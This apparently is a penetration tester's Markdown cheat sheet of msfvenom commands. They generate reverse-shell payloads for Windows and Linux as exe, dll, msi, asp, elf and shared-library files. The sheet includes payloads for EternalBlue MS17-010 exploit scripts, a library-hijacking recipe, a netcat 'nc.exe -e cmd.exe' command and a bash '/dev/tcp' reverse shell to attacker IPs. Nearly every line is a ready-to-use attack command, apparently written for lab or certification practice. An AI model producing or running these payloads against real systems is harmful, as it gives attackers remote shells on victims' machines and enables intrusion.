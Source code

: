 ## Windows Perform command
    - Windows 64bit single stage reverse, perform command python:
        > msfvenom -p windows/exec CMD='c:\xampp\htdocs\gym\upload\nc.exe -e cmd.exe 10.10.14.18 4445' -b '\x00\x0a\x0d' -f py -v payload
## Windows Single Stage
    - Winodws 64bit single stage reverse, output dll
        > msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.156 LPORT=4445 -f dll -o hijackme.dll
    - Winodws 64bit single stage reverse, output msi
        > msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.156 LPORT=4445 -f msi -o reverse.msi
    - Windows 32bit single stage reverse, output asp file:
        > msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.135 LPORT=4444 -f asp -o 1337.asp
    - Windows 32bit single stage reverse, output exe file:
        > msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.135 LPORT=8899 -f exe -o shellmeX86p8899.exe
        > sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.135 LPORT=4444 EXITFUNC=thread -f exe -a x86 --platform windows -o ~/SystemsHacked/10.11.1.5/ms17-010.exe
    - Windows 64bit single stage reverse, output exe file:
        > msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.119.135 LPORT=8899 -f exe -o shellmeX64p8899.exe
        > msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.1.156 LPORT=53 -f exe -o reverse.exe
## Windows Single Stage EternalBlue MS17-010
    - Windows 32bit single stage reverse, output exe file -- for 42315.py:
        > msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.18 LPORT=4444 -f exe > blue.exe
    - Windows 32bit single stage reverse, output exe file -- for sleepya:
        > sudo msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.135 LPORT=4444 EXITFUNC=thread -f exe -a x86 --platform windows -o ~/SystemsHacked/10.11.1.5/ms17-010.exe

## Linux Single stage
    - Linux 32bit single stage reverse shell
        > msfvenom -p linux/x86/shell_reverse_tcp LHOST=10.10.14.18 LPORT=4444 -f elf > 1337x86.esp
    - Linux 64bit single stage reverse shell
        > msfvenom -p linux/x64/shell_reverse_tcp LHOST=10.10.14.18 LPORT=4444 -f elf > 1337x64.esp
    - Linux 64bit command
        > msfvenom -p linux/x64/exec CMD="ping -c 2 192.168.49.131" -f elf shell.elf
    - Linux 64bit shared libary
        - perform a ldd on the binary in question
            > ldd stupidbin
        - Check if you can write to any of the library paths, or the library is missing
        - create your own
            > msfvenom -a x64 -p linux/x64/shell_reverse_tcp LHOST=192.168.49.91 LPORT=21 -f elf-so -o utils.so


## Linux Perform a command
    - Windows 64bit single stage reverse, perform command python:
        > msfvenom -p linux/x86/exec CMD='/bin/bash -i >& /dev/tcp/10.10.14.28/4444 0>&1' -b '\x00\x0a\x0d' -f csv -v payload
